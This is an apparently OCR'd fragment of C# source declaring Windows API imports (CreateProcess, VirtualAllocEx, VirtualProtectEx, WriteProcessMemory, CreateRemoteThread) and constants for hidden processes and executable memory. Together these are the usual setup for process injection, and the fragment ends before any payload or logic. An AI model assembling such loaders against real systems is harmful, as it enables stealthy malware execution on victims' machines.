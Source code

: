 ```csharp
        {
            public IntPtr Reserved1;
            public IntPtr PebAddress;
            public IntPtr Reserved2;
            public IntPtr Reserved3;
            public IntPtr UniquePid;
            public IntPtr MoreReserved;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct STARTUPINFO
        {
            uint cb;
            IntPtr lpReserved;
            IntPtr lpDesktop;
            IntPtr lpTitle;
            uint dwX;
            uint dwY;
            uint dwXSize;
            uint dwYSize;
            uint dwXCountChars;
            uint dwYCountChars;
            uint dwFillAttributes;
            uint dwFlags;
            ushort wShowWindow;
            ushort cbReserved;
            IntPtr lpReserved2;
            IntPtr hStdInput;
            IntPtr hStdOutput;
            IntPtr hStdErr;
        }

        public const uint PageReadWrite = 0x04;
        public const uint PageReadExecute = 0x20;

        public const uint DetachedProcess = 0x00000008;
        public const uint CreateNoWindow = 0x08000000;

        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Auto, CallingConvention = CallingConvention.StdCall)]
        private static extern bool CreateProcess(IntPtr lpApplicationName, string lpCommandLine, IntPtr lpProcAttribs, IntPtr lpThreadAttribs, bool bInheritHandles, uint dwCreateFlags, IntPtr lpEnvironment, IntPtr lpCurrentDir, [In] ref STARTUPINFO lpStartinfo, out PROCESS_INFORMATION lpProcInformation);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        private static extern bool VirtualProtectEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flNewProtect, out UInt32 lpflOldProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        static void Main(string[] args)
        {
```